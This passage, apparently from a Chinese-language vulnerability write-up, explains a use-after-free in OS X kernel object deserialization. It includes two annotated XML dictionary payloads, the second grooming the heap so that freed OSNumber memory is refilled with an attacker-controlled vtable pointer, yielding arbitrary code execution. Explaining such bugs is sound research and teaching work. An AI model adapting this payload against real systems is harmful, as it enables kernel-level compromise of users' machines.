 然而，此策略不能确保安全, 因为在反序列化过程中, 可能会释放objsArray中的对象, 从而留下悬空的指针。举个栗子：

```
&lt;dict&gt;                          &lt;!--  object 0  --&gt;
    &lt;key&gt;a&lt;/key&gt;                &lt;!--  object 1  --&gt;
    &lt;string&gt;foo&lt;/string&gt;        &lt;!--  object 2  --&gt;
    &lt;key&gt;a&lt;/key&gt;                &lt;!--  object 3  --&gt;
    &lt;string&gt;bar&lt;/string&gt;        &lt;!--  object 4  --&gt;
    &lt;key&gt;b&lt;/key&gt;                &lt;!--  object 5  --&gt;
    &lt;object&gt;2&lt;/object&gt;          &lt;!--  object 6  --&gt;
&lt;/dict&gt;
```

当对第二个a赋值反序列化时, 字符串bar栏将通过`setObject`插入到字典中。由于与a关联的旧foo字符串正在被bar替换, 因此字典将在其上释放一个引用。foo插入`objsArray`时, foo没有调用`retain`方法, 因此foo唯一的引用来自字典本身。这将在objsArray[2]]中留下一个悬空的指向foo的指针。以后引用索引2处的对象时, 将在释放的foo对象上调用`retain`方法。

为了利用此漏洞点, 我们需要控制已释放内存的内容, 从而当调用`retain`方法时会使用我们控制的vtable指针。通过在字典中指定正在反序列化的元素, 我们可以轻松地控制对象的分配和释放。在这里，我们可以通过在字典中包含OSData对象来分配和填充我们控制的数据。

```
&lt;dict&gt;                              &lt;!--   0: dict                                    --&gt;
    &lt;key&gt;a&lt;/key&gt;                    &lt;!--   1: key "a"                                 --&gt;
    &lt;integer&gt;10&lt;/integer&gt;           &lt;!--   2: allocate block1                         --&gt;
    &lt;key&gt;b&lt;/key&gt;                    &lt;!--   3: key "b"                                 --&gt;
    &lt;integer&gt;20&lt;/integer&gt;           &lt;!--   4: allocate block2                         --&gt;
    &lt;key&gt;a&lt;/key&gt;                    &lt;!--   5: key "a"                                 --&gt;
    &lt;true/&gt;                         &lt;!--   6: free block1; free list: block1          --&gt;
    &lt;key&gt;b&lt;/key&gt;                    &lt;!--   7: key "b"                                 --&gt;
    &lt;true/&gt;                         &lt;!--   8: free block2; free list: block2, block1  --&gt;
    &lt;key&gt;a&lt;/key&gt;                    &lt;!--   9: key "a"                                 --&gt;
    &lt;data&gt; vtable pointer &lt;/data&gt;   &lt;!--  10: OSData gets block2, data gets block1    --&gt;
    &lt;key&gt;b&lt;/key&gt;                    &lt;!--  11: key "b"                                 --&gt;
    &lt;object&gt;2&lt;/object&gt;              &lt;!--  12: block1-&gt;retain()                        --&gt;
&lt;/dict&gt;
```

来具体说一下以上过程走：

我们将创建一个包含a、b两个键的字典。首先, 我们将a、b键值设置成`OSNumber`, 因为在64位OS X上, 它们的大小与`OSData`足够接近, 可以共享同一个空闲链表。然后, 我们将a和b分配为true, 这将释放掉a、b键的OSNumber。此时, 堆空闲列表在头部包含b的OSNumber和a的OSNumber，`OSNumber b --&gt; OSNumber a`。通过在字典中插入OSData对象, 我们可以使`OSData`容器使用b的`OSNumber`以及`OSData`的数据缓冲区来使用a的`OSNumber`。 通过引用a键的原`OSNumber`的索引导致在已释放的`OSNumber`对象上调用`retain`方法, 而该处是`OSData`的数据缓冲区而且已经被我们用虚表指针填充, 所以最后会执行任意代码。
